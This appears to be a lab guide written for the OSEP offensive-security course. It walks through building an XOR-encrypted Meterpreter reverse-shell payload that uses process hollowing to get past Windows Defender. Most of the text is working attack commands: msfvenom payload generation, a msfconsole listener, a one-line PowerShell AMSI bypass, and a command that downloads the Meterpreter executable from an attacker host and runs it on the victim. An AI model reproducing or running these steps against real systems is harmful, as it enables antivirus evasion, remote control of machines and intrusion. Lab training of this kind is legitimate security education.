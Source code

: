 First thing is to get a stable shell. This is very important and you must do it properly and as soon as you have your first shell, because this executable will follow you until the end of the lab ;)

# IMPORTANT /!\

Please follow carefully this guide. It works, I garantee it and Offensive Security don't change the payload unless they change the lessons (they won't put AV evasion not covered in the materials), and all the Windows Defender database are all the same. If it does not work, you probably did something wrong, try again before thinking they patched it.

As always, to debug it, please try in the Windows Dev Box first with Defender disabled (no need to bypass AV if you compiled for ARM...) and then enable Defender in Dev Box AFTER first step.

Compile a x64 Meterpreter EXE payload that uses Process Hollowing and encryption.

This is covered in the PDF, but the "Shellcode Process Hollowing" from https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/Shellcode%20Process%20Hollowing does it without hassle. Do not forget to XOR encrypt the shellcode (use https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Encoder/shellcodeCrypter-msfvenom.py), do not use msf's encryption.

Identical to (of course don't use 0x00 as a key...): `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 --encrypt xor --encrypt-key $(printf "\xFA") -f csharp`  
If you have error "/usr/lib/ruby/3.0.0/optparse.rb:552:in `match': invalid byte sequence in UTF-8 (ArgumentError)", use another key like \x6A, it's because input weird character is not handled by msfvenom.

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 --encrypt xor --encrypt-key 'A' -f csharp`  
and the key in the Decrypter will be 0x41 (the hexadecimal value of A), around line 178.

Put the buf array into the XOR Process Hollowing runner, and compile with according architecture (x64 here, if you compile with "Any CPU" you will have error when running the EXE).

On Kali, set the listener (with options to stay active after a new connection):  
`sudo msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set EXITFUNC thread;set LPORT 443;set LHOST tun0;set ExitOnSession false; run -j -z"`

Then, on victim, bypass AMSI (not necessary, since it already bypass AV):  
`$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)`

And download and run the Meterpreter (make sure the folder is writable, or user C:\Windows\Tasks) :  
`Invoke-WebRequest -Uri http://192.168.X.Y/Meterpreter.exe -Outfile C:\Meterpreter.exe; C:\Meterpreter.exe`





(another technique to generate the payload, it does the same as the msfvenom, it's just a wrapper)
`python3 shellcodeCrypter-msfvenom.py.py tun0 443 cs xor 0xfa`  

    [i] Generating payload windows/x64/meterpreter/reverse_tcp for LHOST=tun0 and LPORT=443
	[......]
    // xor-encoded with key 0xfa
    byte[] buf = new byte[511] {
    0xc3,0x77,0xbc,0xdb,0xcf,0xd7,0xf3,0x3f,0x3f,0x3f,0x7e,0x6e,0x7e,.......,0xea
    };

    [i] Decoding function:
    for (int i = 0; i < buf.Length; i++)
        {
            buf[i] = (byte)((uint)buf[i] ^ 0xfa);
        }

The "[i] Decoding function" part generated by the Python script MUST BE replaced around line 178 (basically just adapt the 0xfa by the key you want), do not copy it right after the array.